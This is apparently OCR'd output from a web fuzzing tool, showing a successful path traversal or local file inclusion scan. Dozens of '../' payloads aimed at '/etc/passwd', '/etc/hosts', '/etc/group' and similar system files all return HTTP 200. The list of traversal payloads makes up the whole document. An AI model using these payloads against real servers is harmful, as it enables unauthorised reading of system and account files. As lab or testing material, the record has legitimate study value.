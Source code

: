 ```bash
000000133:   200        56 L     55 W       760 Ch      "/etc/group"                                           
000000130:   200        17 L     115 W      878 Ch      "/etc/fstab"                                           
000000204:   200        18 L     111 W      713 Ch      "/etc/hosts.deny"                                      
000000203:   200        11 L     57 W       413 Ch      "/etc/hosts.allow"                                     
000000200:   200        8 L      23 W       205 Ch      "/etc/hosts"                                           
000000232:   200        3 L      5 W        29 Ch       "/etc/issue"                                           
000000254:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../../../
                                                        ../../../etc/passwd"                                   
000000253:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../../../
                                                        ../../../../etc/passwd"                                
000000252:   200        28 L     41 W       1460 Ch     "/etc/passwd"                                          
000000249:   200        28 L     41 W       1460 Ch     "/../../../../../../../../../../etc/passwd"            
000000248:   200        28 L     41 W       1460 Ch     "/./././././././././././etc/passwd"                    
000000244:   200        20 L     103 W      769 Ch      "/etc/netconfig"                                       
000000231:   200        356 L    1050 W     8183 Ch     "/etc/init.d/apache2"                                  
000000255:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../../../
                                                        ../../etc/passwd"                                      
000000261:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../etc/passwd" 
000000269:   200        28 L     41 W       1460 Ch     "../../../../../../etc/passwd"                         
000000245:   200        21 L     61 W       496 Ch      "/etc/nsswitch.conf"                                   
000000267:   200        28 L     41 W       1460 Ch     "../../../../../../../../etc/passwd"                   
000000266:   200        28 L     41 W       1460 Ch     "../../../../../../../../../etc/passwd"                
000000265:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../etc/passwd"             
000000264:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../etc/passwd"          
000000263:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../etc/passwd"       
000000260:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../etc/passw
                                                        d"                                                     
000000262:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../etc/passwd"    
000000259:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../etc/pa
                                                        sswd"                                                  
000000256:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../../../
```